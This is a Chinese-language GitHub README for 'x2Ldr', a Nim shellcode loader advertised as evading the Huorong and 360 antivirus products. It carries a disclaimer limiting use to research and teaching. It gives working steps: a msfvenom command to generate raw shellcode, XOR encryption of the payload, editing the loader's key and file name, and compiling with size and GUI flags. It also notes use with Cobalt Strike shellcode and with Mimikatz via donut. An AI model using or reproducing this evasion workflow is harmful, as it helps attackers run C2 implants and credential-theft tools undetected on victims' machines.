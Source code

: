 免责声明：本工具仅用于安全研究和教学目的，用户应自行承担因使用该工具而引起的一切法律和相关责任。作者不对任何法律责任承担责任。



# x2Ldr
2023年12月15日 新增一个无需分离 nim 实现的加载方式 - x2Ldr-Puls

免杀效果：火绒、360（未开核晶）均联网

读入 Msfvenom 或 Cobalt Strike 等 C2 的 Shellcode 方式分离免杀

或者配合 donut 可以将 exe、dll 转为 Shellcode 载入 MimiKatz 等工具

# 使用方法
在 windows 配置 nim 环境。
官网下载 https://nim-lang.org/install_windows.html

https://nim-lang.org/download/nim-2.0.0_x64.zip

msfvenom 生成 shellcode

```
msfvenom -a x64 -p windows/x64/exec CMD=calc -f raw -o calc_x64.bin
```

xor 加密 msfvenom 生成的 raw 格式 shellcode

```sh
> python .\xorencrypt.py .\calc_x64.bin
> xor encrypted : .\calc_encrypted.bin
```

将加密后的文件名作为参数传递给 nim 文件中的 fopen 参数

```cpp
	//修改这里
	char key[] = "key";

	//修改这里
	fp = fopen("user.dat", "rb");
```

编译

```
nim c -d=mingw --app=gui --cpu=amd64 -d:release --opt:size --passL:-static .\x2Ldr.nim
```



# 效果

![image-20231212214131373](img/image1.png)

![image-20231212214155866](img/image2.png)

## huorong

![image-20231212204157772](img/image3.png)

## 360

![image-20231212213425036](img/image4.png)

![image-20231212213449828](img/image5.png)
